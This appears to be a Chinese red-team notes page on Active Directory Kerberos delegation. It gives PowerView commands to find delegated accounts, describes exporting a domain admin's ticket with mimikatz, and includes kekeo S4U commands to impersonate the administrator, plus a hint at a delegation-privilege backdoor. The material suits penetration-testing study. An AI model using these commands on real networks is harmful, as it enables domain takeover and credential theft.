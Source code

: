 
### 委派

#### 查找域中委派主机或账户

> 以下内容来自文章 <sup>[[浅学Windows认证](https://b404.xyz/2019/07/23/Study-Windows-Authentication/#%E6%9F%A5%E6%89%BE%E5%9F%9F%E4%B8%AD%E5%A7%94%E6%B4%BE%E4%B8%BB%E6%9C%BA%E6%88%96%E8%B4%A6%E6%88%B7)]</sup>

当服务账号被设置为非约束性委派时，其 `userAccountControl` 属性会包含为 TRUSTED_FOR_DELEGATION;当被设置为约束性委派时，其 userAccountControl 属性包含 TRUSTED_TO_AUTH_FOR_DELEGATION（T2A4D），且 msDS-AllowedToDelegateTo 属性会被设置为哪些协议:

加载 powerview，查询无约束委派账户：
```powershell
Get-NetUser -Unconstrained -Domain ffffffff0x.com

//另外一个版本的Powerview
Get-DomainUser -Properties useraccountcontrol,msds-allowedtodelegateto| fl
```

加载 powerview，查询无约束委派机器：
```powershell
Get-NetComputer -Unconstrained -Domain ffffffff0x.com

//另外一个版本的Powerview
Get-DomainComputer -Unconstrained -Properties distinguishedname,useraccountcontrol -Verbose| ft -a
```

加载 powerview，枚举域内所有的服务账号，查看哪些账号被设置了委派，以及是何种类型的委派设置：
```powershell
Get-NetUser -TrustedToAuth -Domain ffffffff0x.com

Get-DomainUser -TrustedToAuth -Properties distinguishedname,useraccountcontrol,msds-allowedtodelegateto| fl

Get-DomainComputer -TrustedToAuth -Domain ffffffff0x.com
```
当一个用户具备对某个服务账号的 SeEnableDelegationPrivilege 权限时，表示可以更改服务账号的委派设置，一般情况下只有域管理员才具备这个权限。因此也可以利用 SeEnableDelegationPrivilege 属性，制作极其隐蔽的后门。

**案例**

非约束委派攻击：当域控管理员访问 A 服务时，A 服务就会将访问者的 TGT 保存在内存中（此时攻击者无法访问域控），但是攻击者通过 mimikatz 的 sekurlsa::tickets /export 命令导出内存中域控管理员访问 A 服务的票据，将其注入到内存，这时候就可以访问域控。

![](../../../../assets/img/Security/RedTeam/OS安全/Windows安全/1.png)

```
kekeo.exe "tgt::ask /user:sqlsvr /domain:ffffffff0x.com /password:Admin12345" exit

kekeo.exe "tgs::s4u /tgt:TGT_sqlsvr@ffffffff0x.com_krbtgt~ffffffff0x.com@ffffffff0x.com.kirbi /user:administrator@ffffffff0x.com /service:/service:service_to_access" exit

Tgs::s4u /tgt:service_account_tgt_file /user:administrator@ffffffff0x.com /service:service_to_access
```

---
